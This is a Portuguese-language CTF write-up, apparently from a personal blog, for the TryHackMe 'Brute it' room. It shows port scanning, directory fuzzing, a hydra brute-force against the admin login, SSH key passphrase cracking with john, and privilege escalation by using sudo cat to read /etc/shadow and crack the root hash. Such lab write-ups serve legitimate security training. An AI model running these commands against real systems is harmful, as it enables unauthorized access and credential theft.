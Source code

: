 ```yaml
---
description: CTF do TryhackME como fiz e anotações.
title: TryhackMe - Brute it - Fácil
date: 2024-03-06 04:17:00 +/-0300
categories: [CTF, TryHackMe]
tags: [ctf, tryhackme, linux, web, facil]     # TAG names should always be lowercase
show_image_post: true
---
```


![Logo](/assets/img/bruteit/bruteit.jpg){: w="100" h="100" .left}

---
# **CTF - Brute it** 
---
---  
## **Enumeração**

### nmap

```shell
╰─ sudo nmap -sV -Pn -sS --min-rate 10000 -stats-every 5 -p- -oN nmap $IP                        
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-04 21:31 -03
Warning: 10.10.225.218 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.225.218
Host is up (0.71s latency).
Not shown: 57996 closed tcp ports (reset), 7537 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.55 seconds
```
{: .nolineno }

### ffuf

```shell
╰─ ffuf -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -t 100 -u http://10.10.225.218/FUZZ -e .php,.txt,.html 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.225.218/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt
 :: Extensions       : .php .txt .html 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htaccess.txt           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 4356ms]
.htpasswd.php           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 5389ms]
.htaccess.php           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 5389ms]
.htpasswd.txt           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 5390ms]
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 5390ms]
.htpasswd.html          [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 6399ms]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 6400ms]
.htaccess.html          [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 6402ms]
admin                   [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 340ms]
index.html              [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 341ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 335ms]
```
{: .nolineno }

Página de login  

![alt text](/assets/img/bruteit/1.png)

Código fonte tem esse comentário  

```html
    <!-- Hey john, if you do not remember, the username is admin -->
```
{: .nolineno }
### hydra
   
brute force com hydra na página de login
   
`hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.225.218 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:password invalid" -V -F`

![alt text](/assets/img/bruteit/2.png)

Ao utilizar as credenciais, tem essa página com download de chave ssh do usuário john.

![alt text](/assets/img/bruteit/3.png)

![alt text](/assets/img/bruteit/4.png)

### john

Crackeando password da chave ssh

```shell
╭─      ~/thm/bruteit     ✔  54s      
╰─ nano sshkey   
╭─      ~/thm/bruteit     ✔  3s      
╰─ ssh2john sshkey > hash              
╭─      ~/thm/bruteit     ✔    
╰─ john hash --wordlist=/usr/share/wordlists/rockyou.txt                     
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
rockinroll       (sshkey)     
1g 0:00:00:00 DONE (2024-03-04 22:07) 11.11g/s 806755p/s 806755c/s 806755C/s rubicon..rock14
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
{: .nolineno }

## **Foothold**

Acesso via ssh

```shell
╭─      ~/thm/bruteit              INT ✘  45s      
╰─ chmod 600 sshkey               
╭─      ~/thm/bruteit              ✔    
╰─ ssh -i sshkey john@$IP
Enter passphrase for key 'sshkey': 
Last login: Wed Sep 30 14:06:18 2020 from 192.168.1.106
john@bruteit:~$ 
```
{: .nolineno }

### user flag

![alt text](/assets/img/bruteit/5.png)

**permissões sudo**

```shell
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```
{: .nolineno }

## **Escalação Privilégio**

Podendo executar o `cat` com `sudo`, da pra ler o arquivo shadow e tentar crackear.  

Pra crackear com john o shadow tem que criar um arquivo unshadow, mais info [aqui.](https://erev0s.com/blog/cracking-etcshadow-john/)

Como o interesse é obter root vou usar apenas a linha do root dos arquivos passwd e shadow.

`john@bruteit:~$ cat /etc/passwd`
`root:x:0:0:root:/root:/bin/bash`

Salvei a linha em um arquivo chamado `passwd.txt`

`john@bruteit:~$ sudo cat /etc/shadow`  
`root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::`

Salvei a linha no arquivo chamado `shadow.txt`

Após isso criei o arquivo unshadow

`unshadow passwd.txt shadow.txt > hashshadow`

### john
Crakeado com john

![alt text](/assets/img/bruteit/6.png)

### root flag

![alt text](/assets/img/bruteit/7.png)